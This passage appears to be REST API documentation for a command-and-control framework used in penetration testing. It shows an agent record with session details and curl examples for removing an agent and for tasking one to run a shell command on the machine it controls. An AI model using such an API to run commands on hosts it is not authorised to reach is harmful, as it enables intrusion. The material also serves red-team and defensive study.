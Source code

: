```json
      "ps_version": "2",
      "results": null,
      "servers": null,
      "sessionID": "XMY2H2ZPFWNPGEAP",
      "session_key": "+e`x!...",
      "taskings": null,
      "uris": "/admin/get.php,/news.asp,/login/process.jsp",
      "user_agent": "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",
      "username": "WINDOWS1\\user",
      "working_hours": ""
    }
  ]
}
```

### Remove Agent

#### Handler

* **Handler** : DELETE /api/agents/AGENT_NAME
* Description : Removes the agent specifed by AGENT_NAME (doesn't kill first).
* No parameters

#### Example

**Request**:
```bash
curl --insecure -i https://localhost:1337/api/agents/XMY2H2ZPFWNPGEAP?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5 -X DELETE
```

**Response**:
```json
{
  "success": true
}
```

### Task an Agent to run a Shell Command

#### Handler

* **Handler** : POST /api/agents/AGENT_NAME/shell
* Description : Tasks the agent specifed by AGENT_NAME to run the given shell command.
* Parameters :
  * command  : the shell command to task the agent to run (required)

#### Example

**Request**:
```bash
curl --insecure -i -H "Content-Type: application/json" https://localhost:1337/api/agents/CXPLDTZCKFNT3SLT/shell?token=ks23jlvdki4fj1j23w39h0h0xcuwjrqilocxd6b5 -X POST -d '{"command":"whoami"}'
```
